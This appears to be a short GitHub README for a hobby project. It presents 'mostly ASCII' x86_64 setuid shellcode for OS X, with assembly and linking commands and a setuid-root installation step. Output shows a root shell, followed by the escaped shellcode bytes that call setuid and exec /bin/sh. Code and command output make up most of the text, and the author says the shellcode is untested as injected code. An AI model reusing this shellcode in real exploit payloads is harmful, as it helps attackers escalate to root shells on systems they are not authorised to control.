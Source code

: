 (mostly) ASCII setuid/shell code
===============================
### for OS X (x86_64)

i hesitate to call this shell code because i haven't tested it in that way.
all i know is, it works when compiled like this:

```shell
$ nasm -f macho64 ascii.asm && ld ascii.o -o ascii \
&& sudo chown root:wheel ascii && sudo chmod 4755 ascii && ./ascii

ld: warning: -macosx_version_min not specified, assuming 10.10
bash-3.2# whoami
root
```

btw, this is it, with the chars i couldn't remove, escaped like \xAA:

`h>>>>h ;) XH5 ;) PZXH5)>><\x0f\x05hAAAAXH5zAACH\xbfj/bin/shH\xc1\xef\x08WT_RT^\x0f\x05`

it fits in a tweet!

made without love by @reptar_xl
